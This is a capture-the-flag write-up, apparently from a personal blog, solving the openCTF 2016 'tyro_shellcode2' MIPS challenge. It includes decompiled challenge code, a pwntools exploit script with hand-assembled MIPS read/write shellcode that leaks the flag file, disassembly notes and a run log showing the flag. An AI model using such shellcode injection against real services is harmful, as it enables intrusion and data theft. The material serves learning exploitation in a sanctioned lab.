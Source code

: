 ```yaml
---
layout: post
title: openCTF 2016 - tyro_shellcode2
category: [Exploitation]
tags: [Exploitation, openCTF]
comments: true
---
```


**Points:** 100
**Solves:** 
**Category:** Exploitation
**Description:** Baby's first second problem, welcome to a beautiful risc architecture called MIPS.
Server: 172.31.1.44:1615
Binary: 172.31.0.10/tyro_shellcode2_53af42a29d43eff55ff3adba4cf67069

> [tyro_shellcode2]({{site.url}}/assets/tyro_shellcode2_53af42a29d43eff55ff3adba4cf67069)

This challenge is absolutely the same as [tyro_shellcode1]({{site.url}}/exploitation/2016/08/05/openCTF-tyro_shellcode.html) but compiled for MIPS architecture.

{% highlight C %}
int main() {
    flagFileDesc = open("/home/challenge/flag", 0x0);
    setbuf(STDIN, 0x0);
    setbuf(STDOUT, 0x0);
    alarm(30);
    
    mmap_addr = mmap(0x0, 0x80, 0x7, 0x22, 0xffffffff, 0x0);
    memset(mmap_addr, 0xc3, 127);   // this time 0xc3 doesn't mean RET :P
    memset(localBuffer, 0x0, 127);
    
    puts("OpenCTF tyro shellcode challenge.\n");
    puts("Write me some shellcode that reads from the file_descriptor");
    puts("I supply and writes it to the buffer that I supply");
    printf("%d ... 0x%08x\n", "I supply and writes it to the buffer that I supply", flagFileDesc, mmap_addr);

    read(0x0, mmap_addr, 0x20);

    ret = mmap_addr();

    puts(localBuffer);

    edx = canary ^ *0x14;
    COND = edx == 0x0;
    if (!COND) {
            eax = __stack_chk_fail();
    }
    return ret;
}

{% endhighlight %}

# Solution

This time around I will do read/write syscalls with static buffer address located in the .bss section.

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def sh():
    a = ('24020fa3').decode('hex')  # v0 = 3
    b = ('24040003').decode('hex')  # a0 = 3
    c = ('24060040').decode('hex')  # a2 = 0x40
    d = ('3c05004a').decode('hex')  # a1 == addr 0x4a 5cd0
    e = ('34a55cd0').decode('hex')  # a1 == addr
    f = ('0000000c').decode('hex')  # syscall
    g = ('24040001').decode('hex')  # a0 = 3
    h = ('24020fa4').decode('hex')  # v0 = 4004
    i = ('3c05004a').decode('hex')  # a1 = addr
    j = ('34a55cd0').decode('hex')  # a1 = addr
    k = ('24060040').decode('hex')  # a2 = 0x40
    l = ('0000000c').decode('hex')  # syscall

    return a + b + c + d + e + f + g + h + i + j + k + l

def exploit(r):
    r.recvuntil(' ... ')
    addr = int(r.recv(10), 16)
    log.info("Addr is at: " + hex(addr))

    fout = open('shellcode', 'w')
    fout.write(sh())
    fout.close()

    r.send(sh())
    r.interactive()



if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/openCTF/tyro_shellcode1_84536cf714f0c7cc4786bb226f3a866c'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

Sorry about not writing MIPS assembly but it appears I haven't compiled pwntools/binutils with mips support. Instead I had to manually use rasm2 as assembler/disassembler.

The disassembly of the shellcode can be achieved with `rasm2 -a mips -b 32 -e -d '24020fa3'`...:

{% highlight text %}
addiu v0, zero, 0xfa3   # read syscall num
addiu a0, zero, 3       # file descriptor
addiu a2, zero, 0x40    # size to read
lui a1, 0x4a            # .bss static addr 0x4a5cd0
ori a1, a1, 0x5cd0
syscall
addiu a0, zero, 1       # file descriptor for write
addiu v0, zero, 0xfa4   # write syscall
lui a1, 0x4a            # .bss static addr 0x4a5cd0
ori a1, a1, 0x5cd0
addiu a2, zero, 0x40    # size to write
syscall
{% endhighlight %}

The assembly is just as simple `rasm2 -a mips -b 32 -e 'addiu v0, zero,4003'`.

{% highlight text %}
➜  openCTF rasm2 -a mips -b 32 -e 'addiu v0, zero,4003'
24020fa3
➜  openCTF
{% endhighlight %}

Few things to pay attention to:

* MIPS is big endien
* Rasm2 assemble syntax takes different syntax from what u see in IDA. Most of the time it will be 3 operands. So `addiu v0, zero, 0xfa3` == `li v0, 0xfa3` but the second syntax won't assemble for whatever reason :(.
* Syscall number goes in v0
* Arguments go in a0, a1, a2....
* `lui a1, 0x4a` moves 0x4a in the high order 2 bytes of 32bit register a1
* `ori a1, a1, 0x5cd0` does a logical OR of low order 2 bytes of a1 with 0x5cd0

{% highlight text %}
openCTF python ./shellcode2.py 172.31.1.44 1615
[*] For remote: ./shellcode2.py HOST PORT
[+] Opening connection to 172.31.1.44 on port 1615: Done
[*] Addr is at: 0x76fffce0
[*] Switching to interactive mode

itsa_beeet_different_but_stilltheSAME
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
/home/challenge/qemu-wrapper.sh: line 2: 29407 Segmentation fault      
(core dumped) qemu-mips /home/challenge/tyro_shellcode2
[*] Got EOF while reading in interactive
$
{% endhighlight %}